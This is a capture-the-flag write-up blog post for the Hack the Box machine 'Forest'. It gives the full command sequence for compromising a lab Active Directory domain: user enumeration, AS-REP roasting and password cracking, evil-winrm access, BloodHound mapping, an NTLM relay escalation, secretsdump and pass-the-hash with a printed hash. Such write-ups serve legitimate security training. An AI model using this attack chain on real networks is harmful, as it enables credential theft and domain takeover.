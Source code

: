 +++
author = "Nick"
categories = ["hack the box", "RPC", "evil-winrm", "impacket", "ntlm relay", "bloodhound", "pass the hash", "windows", "Powershell"]
date = 2020-03-21T11:26:04Z
description = ""
draft = false
thumbnail = "/images/2019/12/forest.png"
slug = "hack-the-box-forest"
summary = "Welcome back everyone. Today we will be doing the Hack the Box machine Forest. The box is listed as an easy Windows box. Let's jump in!"
tags = ["hack the box", "RPC", "evil-winrm", "impacket", "ntlm relay", "bloodhound", "pass the hash", "windows", "Powershell"]
title = "Hack the Box - Forest"

+++


Welcome back everyone. Today we will be doing the Hack the Box machine Forest. The box is listed as an easy Windows box. Let's jump in!

As normal, we kick it off with an ```nmap``` scan: ```nmap -sC -sV -oA initial_scan 10.10.10.161```

Here are our results:
```
Nmap scan report for 10.10.10.161
Host is up (0.15s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2019-12-10 14:45:10Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/10%Time=5DEFADE2%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h46m50s, deviation: 4h37m10s, median: 6m48s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2019-12-10T06:47:44-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-12-10T14:47:41
|_  start_date: 2019-12-10T05:12:53

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 307.76 seconds
```

We initially see ```LDAP```, ```Kerberos``` and ```SMB``` ports available. Let's see what might be shared on ```SMB```. Repeating the scan again with ```-p-``` gives us some additional ports as well. Most notabled ```5985```.

A quick ```SMBMap``` gives us access denied. Next we'll try to gain access via ```RPCclient```: ```rpclient -U "" -N 10.10.10.161```. This gives us access, we can enumerate users this way using ```enumdomusers``` within our connection:

![](/images/2019/12/rpcclient.gif)

We can take those and paste them into a file called ```users.txt```. Now we want to remove all the junk and essentially keep the usernames. A quick one liner: 

```cat users.txt | cut -d "[" -f2 | cut -d "]" -f1 > trimmed_users.txt```.

Now that we have a list of users. We could try a few things bruteforce, kerberoasting or AS-REP Roast. Lucky for us ```impacket```  gives us the tools to try all of these out. 

At the time of writting this, the current version of ```Impacket``` on Kali is 9.18 which does NOT support userfiles command. You'll need to add a username one at a time. You can also copy the updated script from [here](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py) and use that. 

First we'll use ```GetNPUsers.py``` to see if any users have ```DONT_REQ_PREAUTH``` enabled. If we find some, we can use AS-REP to obtain some leverage.

Command:
```./GetNPUsers.py htb/ -userfile trimmed_users.txt -format john -dc-ip 10.10.10.161```

A breakdown of the above command. The ```htb/``` is our domain. ```-usersfile``` is the file we created earlier. ```-format john``` means we want to output our format for easy cracking in ```John```. Lastly, ```-dc-ip``` is our target Domain Controller, in this case, our target.

![](/images/2019/12/pre_auth.gif)

Now that we have a username and hash, we can crack it in ```John```. We issue ```John --wordlist=/usr/share/wordlists/rockyou.txt vuln_users.txt``` to get the cracking going. Shortly we have a result: ```s3rvice```.

![](/images/2019/12/image-13.png)

Now that we have a set of credentials, we can look to use those. Our earlier enumeration showed us that we could leverage ```Win-RM``` on port ```5985```. So we'll do just that. We'll use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and start enumerating further.

Command:
```evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'```

![](/images/2019/12/winrm_user.gif)

Now that we have a shell and we have access to the ```user.txt``` flag. Onto root! We can start enumerating internally. We do the normal groups and user checks with ```systeminfo```, ```net user svc-alfresco``` and ```net group``` to start. Here is a quick link to some enumeration methods for Windows machines: [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#user-enumeration).

We see that there are exchanges groups listed on the system. To better help visualize the path we want to take to domain admin, we can use [```Bloodhound```](https://github.com/BloodHoundAD/BloodHound/wiki/getting-started). If you're a Kali user you can simply ```apt get install Bloodhound```. Otherwise, follow the directions on the Github.

Once installed, we need to leverage SharpHound.ps1 to gain data. We find that script [here](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1). Upload that file via ```Evil-WinRM```. 

Command:
```upload /root/Tools/SharpHound.ps1 C:\Users\svc-alfresco\Documents```

![](/images/2019/12/image-15.png)

Import the module into our Powershell prompt:

```import-module .\SharpHound.ps1```

Then run ```invoke-bloodhound -CollectionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice```.

This will compile all sorts of AD data into a zip file for us to download. Once downloaded, upload the data into ```Bloodhound```. We can then filter by 'Highest Value Target' and start narrowing down a path to take based on our previous research.

![](/images/2019/12/image-14.png)

Based on our above breakdown we can see that we have the ability to write to the ```Exchange Windows Permissions``` group. So we'll want to add ourselves to that group.

Command:
```net group "Exchange Windows Permissions" svc-alfresco /ADD```

Once we are part of that group we can try to escalate our privileges based on [this research](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

So we'll spin up our ```NTLM Relay```:

Command:
```ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco```

Then we can browse to our ip and authenticate with ```svc-afresco``` credentials.

![](/images/2019/12/ntlm_relayed.gif)

After a few resets on the box and switching from EU to US a few times, it finally worked. We now can dump some secrets.

Command:
```python secretsdump.py htb.local/svc-alfresco@10.10.10.161 -just-dc```

This kicks out a whole bunch of hashes. So our goal is to pass the hash as administrator for a shell.

![](/images/2019/12/image-18.png)

To do this we'll use ```wmiexec.py```.

Command:
```python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161```

![](/images/2019/12/root_again.gif)

There we have it, our root shell with flag!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

